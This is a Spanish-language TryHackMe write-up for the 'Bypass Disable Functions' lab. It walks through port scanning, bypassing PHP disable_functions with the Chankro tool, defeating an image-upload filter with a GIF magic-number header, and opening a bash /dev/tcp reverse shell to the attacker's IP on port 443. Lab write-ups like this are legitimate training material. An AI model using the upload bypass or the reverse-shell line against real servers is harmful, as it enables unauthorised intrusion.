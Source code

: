 ```yaml
---
title: "Bypass Disable Functions - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/BypassDisableFunctions/data/mail.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/TryHackMe.png?raw=true"
categories:
  - Writeup
  - TryHackMe
tags:
  - PHP
  - Bypassing
  - Linux
---
```


<p align="center">
<img src="https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/machines/THM/BypassDisableFunctions/data/ChankroTHM.png?raw=true">
</p>

La máquina **Bypass Disable Functions** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **Info** desarrollada por **stuxnet** y publicada **23 de junio del 2021** cuenta con un sistema operativo **Linux**.

**URL:** [Bypass Disable Functions - TryHackMe](https://tryhackme.com/jr/bypassdisablefunctions)


## Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.71.174]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **22 y 80** :  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web mediante un navegador ya que cuenta con un servicio **http** por el puerto **80** y al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/web.png">
  </p>

  Enumerando la pagina podemos ver que existe una ruta donde es posible subir archivos.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/arc.png">
  </p>

## Lateral Movement

  Al enumerar la web con la herramienta de **wappalyzer** se puede ver que la web tiene como lenguaje de programación **PHP**

  <p align="center">
  <img src="https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/machines/THM/BypassDisableFunctions/scan/wap.png?raw=true">
  </p>

  Con esto en mete podemos ver que el archivo **phpinfo.php** esta disponible, esté archivo nos da información sobre la configuración del servidor y las configuraciones para interpretar un **php** por ejemplo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/scan/phpi.png">
  </p>


  Viendo la información que nos brinda el **phpinfo** podemos ver un apartado llamado **disable_funtions** y en ella están seteadas muchas variables criticas como:
  - exec
  - passthru
  - shell_exec
  - system
  - proc_open
  - popen
  - curl_exec
  - curl_multi_exec

  Al podemos ver que estamos muy limitados a la hora de subir un archivo **php** el cual contenga código malicioso a nuestro beneficio pero investigando y gracias a la información que nos brinda esta maquina podemos hacer uso de la herramienta **[Chankro](https://github.com/TarlogicSecurity/Chankro)**.

  Esta herramienta nos permite ejecutar comando mediante la función **mail()** y **putenv()** cambiando una variable de entorno con la cual ejecuta el binario **sendmail**. Una explicación de lo que hace es a bajo nivel lo explican en este **[articulo](https://www.tarlogic.com/blog/evadir-disable_functions-open_basedir/)**.

  Para probar si la herramienta funciona vamos a ejecutar un **whoami** y depositar lo en la ruta absoluta de la web, la cual se alojan en **/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/** esto se sabe ya que ene le **phpinfo** se puede ver la ruta en donde esta alojada la web.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/info.png">
  </p>

  Para hacer esto voy a crear un archivo llamado **command.sh** y con el siguiente contenido:

  ```bash
  #!/bin/bash

  whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/winsad.txt

  ```
  Ya creado esto hare uso de la herramienta **Chankro** con los siguientes parámetros:

  - **--arch 64**             (Architecture 32 or 64.)  
  - **--input command.sh**    (Binario a ejecutar.)
  - **--output winsad.php**   (Nombre del PHP a crear.)
  - **--path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db**  (Ruta a donde se aloja el binario creado.)

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/cha1.png">
  </p>

  Una vez creado la herramienta nos crea el  archivo **php** ire a la web y lo subo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web1.png">
  </p>

  Cuando lo subo puedo ver que me marca error y eso sucede ya que la pagina tiene una validación la cual solo permite subir imágenes y para **bypassear** esta validación puedo agregar a el archivo **php** el **magic number** de un **GIF** el cual tiene un valor ```GIF89a;```:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/cha2.png">
  </p>

  Agregándole esta cabecera estamos indicando que los primero bits del archivo se identifica como un **GIF** y si hago un **file** puedo ver que efectivamente toma que el archivo es un **GIF** aunque tenga extension **php**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/file.png">
  </p>

  Si volvemos a subir el archivo podemos ver que ahora si nos permitió subir el archivo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web2.png">
  </p>

  Si buscamos en la web podemos ver que existe un subdirectorio **uploads** en donde se almacenan los archivos que subimos:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web3.png">
  </p>

  Si entramos a nuestro archivo podemos ver que el código en php lo interpreta y según las instrucciones a la hora de interpretarlo debería crear nuestro archivo en la raíz el cual indicamos que se llama **"winsad.txt"** y si accedemos a la ruta podemos ver que efectivamente el archivo existe:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/web4.png">
  </p>

## Gaining Access

  Ahora que podemos ver que se pueden ejecutar comando a nivel de sistema modificare el archivo **command.sh** y agregare código que cuando se ejecute me entable una revershell a mi maquina por el puerto 443:

  ```bash
  #!/bin/bash

  bash -c 'bash -i >& /dev/tcp/[My IP]/443 0>&1'
  ```

  Con esto en mente y ya modificado el archivo **command.sh** vuelvo a crear el archivo **winsad.php** con **Chankro** y ya creado vuelvo a agregar la cabecera **'GIF89a;'** y a subir el archivo.


  Ya que volví a subir el **php** y yendo a la ruta donde esta alojado **winsad.php** puedo ver que me interpreta el código y me otorga la **shell**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/shell.png">
  </p>

  Ya dentro de la maquina podemos ir la directorio del usuario **s4vi** y visualizar la flag.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/BypassDisableFunctions/intrusion/flag.png">
  </p>
